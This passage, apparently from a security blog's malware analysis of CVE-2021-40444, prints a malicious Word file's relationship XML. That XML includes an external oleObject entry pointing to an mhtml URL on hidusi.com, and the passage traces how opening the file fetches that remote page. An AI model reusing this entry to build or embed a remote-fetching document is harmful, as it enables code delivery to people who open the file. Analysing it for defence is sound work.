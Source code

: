 Relationship file

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme" Target="theme/theme1.xml" />
	<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings" Target="webSettings.xml" />
	<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable" Target="fontTable.xml" />
	<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="settings.xml" />
	<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles" Target="styles.xml" />
	<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="mhtml:http://hidusi.com/e8c76295a5f9acb7/side.html!x-usc:http://hidusi.com/e8c76295a5f9acb7/side.html" TargetMode="External" />
	<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="media/image2.wmf" />
	<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="media/image1.jpeg" />
</Relationships>



```

> > Relationship files is the normal behavior should to contains internal/External resources such as (font, theme, and web settings, etc.)

I found two external URLs refers to **hidusi.com** domain.

> > MHTML is a file extension for a Web page archive file format as saved by Internet Explorer. The archived Web page is an MHTML document. MHTML saves the Web page content and incorporates external resources, such as images, applets, Flash animations and so on, into HTML documents.

So I decided to add that domain name in my hosts file and establish an HTTP server through python.

![](https://xret2pwn.github.io/assets/img/posts/CVE-2021-40444/image-20210911075233399.png)

![](https://xret2pwn.github.io/assets/img/posts/CVE-2021-40444/image-20210911075304692.png)

Now let’s see what will happen when I open the document again.

![](https://xret2pwn.github.io/assets/img/posts/CVE-2021-40444/image-20210911075345459.png)

Okay, it goes to get the content of the side.html as I found in the relationship file. There is an ID for each relationship so I can take the ID of that relationship and search in the document.xml file to find more details on it.

![](https://xret2pwn.github.io/assets/img/posts/CVE-2021-40444/image-20210911095308848.png)

And yeah I found **OLEObject** for that ID as expected.
